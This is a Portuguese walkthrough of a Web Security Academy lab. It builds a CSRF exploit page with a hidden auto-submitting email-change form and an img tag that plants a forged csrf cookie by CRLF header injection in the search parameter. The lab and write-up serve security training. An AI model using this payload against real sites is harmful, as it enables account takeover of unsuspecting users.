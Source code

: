 Nessa requisição, podemos ver que o cookie `csrf` é o mesmo que o token `csrf` que está sendo enviado no corpo da requisição.

Através dessa informação, podemos criar um script que envia a requisição para o back-end, e para isso, vamos utilizar o `exploit server` que o laboratório disponibiliza:

```html

    <form method="POST" action="https://0a2a0012037209e1c1f6766b0076008c.web-security-academy.net/my-account/change-email">
        <input type="hidden" name="email" value="sonaelneto@user.net">
        <input type="hidden" name="csrf" value="u0E6e3CZdmq2buUkCZ9oKRyx8qSGXPTm">
    </form>
    <img src="https://0a2a0012037209e1c1f6766b0076008c.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=u0E6e3CZdmq2buUkCZ9oKRyx8qSGXPTm%3b%20SameSite=None" onerror="document.forms[0].submit();" />

```

O script acima cria um formulário com o método **"POST"** e a url de destino **"/my-account/change-email"**, e dentro do formulário, temos dois campos de `input` com o `type="hidden"` para que o campo não seja exibido na tela, o `name="email"` seguindo o padrão da requisição que o `Burp Suite` interceptou, e o `value="sonaelneto@user.net"` com o email que queremos alterar, e o `name="csrf"` com o token `csrf` que copiamos da requisição interceptada.

Além disso, temos uma tag `<img>` que faz uma requisição para o back-end com o parâmetro `search` no valor **"test"** e com o cookie `csrf` com o valor **"u0E6e3CZdmq2buUkCZ9oKRyx8qSGXPTm"** que é o mesmo que o token `csrf` que está sendo enviado no corpo da requisição.

A tag `<img>` faz com que o cookie `csrf` seja enviado para o back-end, e o `onerror` faz com que o formulário seja enviado automaticamente.

Agora, basta colocar esse script no `exploit server` que o laboratório disponibiliza:

![server](same_server.png)

E clicar em `"Deliver exploit to victim"` para que o laboratório seja concluído.

![concluido](same_concluido.png)

---
